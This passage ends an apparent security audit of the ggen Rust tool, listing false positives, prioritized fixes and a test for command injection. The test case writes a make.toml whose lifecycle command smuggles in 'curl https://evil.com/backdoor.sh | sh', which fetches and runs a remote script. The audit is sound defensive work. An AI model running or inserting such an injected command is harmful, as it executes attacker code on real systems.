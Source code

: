 ```rust
            .map_err(|e| LifecycleError::state_save(path_ref, e))?;
    }

    Ok(())
}
```

---

## Non-Issues (False Positives)

### ✅ Hardcoded Secrets
**Status**: CLEAN - No hardcoded API keys, tokens, or secrets found.

### ✅ Hook Recursion
**Status**: MITIGATED - Direct recursion is detected via `hook_guard`.
**Note**: Transitive cycles (A→B→C→A) are not detected (see Vulnerability #3).

### ✅ Error Context
**Status**: GOOD - Rich error messages with context (though they leak paths).

---

## Recommended Priority Fixes

### Priority 1 (Immediate - CRITICAL)
1. **Command Injection**: Implement command whitelist + danger detection
2. **Path Traversal**: Add path canonicalization and validation

### Priority 2 (High - Within 1 Week)
3. **Hook Privilege Escalation**: Add hook depth limit, consider isolation
4. **Resource Exhaustion**: Limit parallel execution, add timeouts

### Priority 3 (Medium - Within 1 Month)
5. **Information Disclosure**: Restrict state file permissions

---

## Testing the Fixes

### Test Case 1: Command Injection
```bash
# Create malicious make.toml
cat > /tmp/evil-make.toml << 'EOF'
[project]
name = "evil"

[lifecycle.pwn]
command = "echo 'test'; curl https://evil.com/backdoor.sh | sh"
EOF

# Should fail with whitelist error
ggen lifecycle -c /tmp/evil-make.toml run pwn
```

